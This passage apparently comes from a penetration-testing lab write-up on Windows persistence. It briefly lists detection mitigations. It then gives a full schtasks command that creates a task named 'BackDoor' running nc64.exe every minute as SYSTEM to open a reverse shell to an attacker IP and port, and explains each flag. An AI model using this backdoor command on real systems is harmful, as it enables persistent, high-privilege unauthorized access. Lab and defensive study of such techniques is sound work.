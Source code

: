 -   **Potential Defenses/Mitigation's**:
    -   **Monitoring**: Detect unusual registry changes in `HKEY_CURRENT_USER\...\Run`.
    -   **Network Monitoring**: Watch for unusual outgoing connections to external IPs and ports.


#### Creating a scheduled task back-door: {#creating-a-scheduled-task-back-door}

-   A great means of creating persistence is to create a scheduled task that runs periodically and calls back out to our attack machine. I've put two approaches below.


##### Version 1: Using nc64.exe to connect back to our attack host periodically: {#version-1-using-nc64-dot-exe-to-connect-back-to-our-attack-host-periodically}

-   **Scheduled Task Backdoor**:
    -   `schtasks /create /tn BackDoor /tr "C:\Users\sam.emerson\Documents\nc64.exe  10.10.14.121 4433 -e cmd" /sc minute /mo 1 /ru System`
    -   {{< figure src="/ox-hugo/2024-11-05-100459_.png" >}}
        -   +Note+: This techniques runs every 1 minute and calls out to my attack machine. This means that even if I disconnect I can turn on my listener again and it will call back out to our attack host:
    -   **Shell Caught**:
        -   {{< figure src="/ox-hugo/2024-11-05-100314_.png" >}}
        -   Just to double check I disconnect to ensure it calls back out to me:
            -   {{< figure src="/ox-hugo/2024-11-05-100604_.png" >}}



-  Scheduled Task Backdoor Command Breakdown Running a Binary:

    -   **Command Breakdown**:
        -   `schtasks /create`
            -   Creates a new scheduled task on Windows.
        -   `/tn BackDoor`
            -   Sets the task name to `BackDoor`.
            -   This name is how the task will appear in the Task Scheduler.
        -   `/tr "C:\Users\sam.emerson\Documents\nc64.exe 10.10.14.121 4433 -e cmd"`
            -   Specifies the action that the task will execute.
            -   **Path**: `"C:\Users\sam.emerson\Documents\nc64.exe"`
                -   Path to `nc64.exe`, used to open a reverse shell.
            -   **IP Address\***: `10.10.14.121`
                -   Our attack machine that is listening where the reverse shell will connect.
            -   **Port**: `4433`
                -   The port number on our attack machine listening for the connection.
            -   **Flag**: `-e cmd`
                -   The `-e` flag executes `cmd.exe` upon connection, providing a command shell.
        -   `/sc minute`
            -   Sets the task's schedule frequency to every minute.
        -   `/mo 1`
            -   Modifier that, when used with `/sc minute`, runs the task every 1 minute.
        -   `/ru System`
            -   Specifies that the task should run with `System` privileges.
            -   Running as `System` grants high privileges, making this backdoor more dangerous.

